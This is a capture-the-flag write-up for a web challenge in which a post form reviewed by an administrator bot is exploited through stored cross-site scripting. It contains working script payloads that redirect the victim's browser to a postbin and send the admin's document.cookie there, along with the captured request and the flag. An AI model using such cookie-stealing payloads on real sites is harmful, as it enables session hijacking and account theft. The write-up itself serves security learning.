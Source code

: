 # Government Agriculture Network

![img](./assets/government-agriculture-network-task.png)

##### **Given:** web-address https://govagriculture.web.ctfcompetition.com/

Following the link we get to the **Ministry of Agriculture** website. 

![img](./assets/ministry-of-agriculture.png)

Quick inspection of the source code doesn't give out a lot.

There's a form to create a new post and a link to `/admin` page, which doesn't really work (`303 SEE OTHER` upon navigation and redirect back to main page).

Let's try to create a new post. On submit we're being redirected to `/post` page with following message:

```
Your post was submitted for review. Administator will take a look shortly.
```
This message gives an important piece of information: administrator is going to review our message. If there's a xss vulnerability present then it can be possible to execute a script in administrator's browser.

Let's create a [postbin](https://postb.in/) and write up a simple script which will call our postbin upon execution by the victim's browser:

```
<script>document.location.href='https://postb.in/1586263800460-8725055831018'</script>
```
Immediately after submitting this script we can see that the request reached the bin:
```
x-real-ip: 104.155.55.51
host: postb.in
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Edocument.location.href%3D%27https%3A%2F%2Fpostb.in%2F1586263800460-8725055831018%27%3C%2Fscript%3E
[...]
```

Let's modify the script to fetch admin's cookies and send it to us:
```
<script>
cookie = document.cookie
document.location.href='https://postb.in/1586263800460-8725055831018?cookie=' + cookie
</script>
```
In postbin we see:
```
Query
cookie: flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};
```

**Flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}**
